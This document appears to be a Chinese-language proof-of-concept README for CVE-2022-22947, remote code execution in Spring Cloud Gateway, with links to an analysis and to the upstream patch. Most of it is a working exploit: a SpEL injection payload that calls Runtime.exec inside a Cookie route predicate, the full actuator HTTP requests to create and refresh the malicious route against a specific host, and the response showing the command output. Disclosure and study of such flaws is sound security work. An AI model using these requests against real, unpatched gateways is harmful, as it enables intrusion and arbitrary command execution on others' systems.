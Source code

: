 # CVE-2022-22947

> 分析详见: [CVE-2022-22947 分析-云社区-华为云](https://bbs.huaweicloud.com/blogs/335870)

## POC

**edit yml config**

在配置文件中新增路由

```yml
spring:
  cloud:
    gateway:
      routes:
      - id: after_route
        uri: https://example.org
        predicates:
        - name: Cookie
          args:
            name: "#{T(java.lang.Runtime).getRuntime().exec('whoami')}"
            regexp: mycookievalue
```

**from actuator api**

根据 actuator api[^1],可以利用 `/gateway/routes/{id_route_to_create}` 接口来刷新路由

```json
{
  "id": "first_route",
  "predicates": [
    {
      "name": "Cookie",
      "args": {
        "_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec('whoami')}",
        "_genkey_1": "mycookievalue"
      }
    }
  ],
  "filters": [],
  "uri": "https://www.uri-destination.org",
  "order": 0
}
```

1. 创建路由

```http
POST /actuator/gateway/routes/first_route HTTP/1.1
Host: 7.250.141.54:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Length: 0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

{
  "id": "first_route",
  "predicates": [
    {
      "name": "Cookie",
      "args": {
        "_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec('whoami')}",
        "_genkey_1": "mycookievalue"
      }
    }
  ],
  "filters": [],
  "uri": "https://www.uri-destination.org",
  "order": 0
}
```

2. 刷新路由

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: 7.250.141.54:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
Origin: http://7.250.141.54:8080
Referer: http://7.250.141.54:8080/actuator/gateway/routes
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
```

3. 获取命令执行结果

访问 `actuator/gateway/routes`

```json
{
  "predicate": "Cookie: name=desktop-um80nhi\\xu regexp=mycookievalue",
  "route_id": "first_route",
  "filters": [ ],
  "uri": "https://www.uri-destination.org:443",
  "order": 0
}
```

## Patch

> [Comparing v3.0.6...v3.0.7 · spring-cloud/spring-cloud-gateway](https://github.com/spring-cloud/spring-cloud-gateway/compare/v3.0.6...v3.0.7)


[^1]: [11. Actuator API](https://cloud.spring.io/spring-cloud-gateway/multi/multi__actuator_api.html)